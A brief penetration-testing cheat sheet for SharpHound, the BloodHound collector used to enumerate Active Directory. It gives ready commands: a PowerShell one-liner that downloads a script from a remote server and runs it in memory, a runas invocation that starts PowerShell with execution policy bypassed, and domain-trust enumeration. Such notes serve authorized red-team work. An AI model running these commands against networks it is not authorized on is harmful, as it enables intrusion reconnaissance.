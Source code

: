 # sharphound

% sharphound, Active directory enumeration, https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors
#plateform/windows #target/remote #port/389 #port/631 #cat/AD/RECON

## download and  collect data
#tag/powershell 
https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1
http://<local_ip>/windows/windows_weaponize/ps/SharpHound.ps1
```powershell
(new-object system.net.webclient).downloadstring('http://<server>/SharpHound.ps1') | Invoke-BloodHound -CollectionMethod All  -domain <domain_fqdn>
```

## collect data
#tag/powershell 
runas /netonly /user:admin\guest "powershell.exe -exec bypass"
nltest.exe /DOMAIN_TRUSTS
```powershell
import-module sharphound.ps1; invoke-bloodhound -collectionmethod <method|DCOnly> -domain <domain_fqdn>
```
